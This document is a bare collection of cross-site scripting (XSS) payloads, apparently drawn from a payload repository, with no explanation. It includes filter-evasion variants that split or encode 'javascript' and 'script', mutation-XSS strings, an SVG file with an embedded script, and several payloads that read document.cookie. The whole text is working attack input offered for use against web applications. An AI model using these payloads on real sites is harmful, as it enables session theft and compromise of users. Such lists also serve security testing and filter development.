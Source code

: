 <output>
<noscript onerror=prompt(0);><a href="javascript:alert("XSS")>XSS</a>"><script onerror="<noscript onerror="<script>alert("XSS")</script>"><IMG src=<script src="/">alert(" "XSS" ")</script></noscript>"<script>alert("XSS")</script></noscript>
</output>
<a href="javascript&colon;alert&lpar;document&period;domain&rpar;">Click Here</a>

<img src=x onerror="eval('alert(document.cookie)')"/>
<IMG SRC=javascript:alert(&quot;XSS&quot;)>

<s\Cr\ipt\>alert(document\.cookie)<\/s\Cr\ipt\>\;\/>
<--<img/src=%20onerror=confirm``>%20--!>
<select><noembed></select><script x='a@b'a>
y='a@b'//a@b%0a\u0061lert(1)</script x>

xss'''><iframe srcdoc='%26it;script>;prompt`
${document.domain}`%26it;/script>'>
<iframe src=java&Tab;sc&Tab;ript:al&Tab;ert()></iframe>

<sVg/onLy=1 onLoaD=confirm(1)//

<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
      alert("Ghostlulz XSS");
   </script>
</svg>

<svg><animate onbegin=evt.path.pop().alert(1) attributeName=x dur=1s>
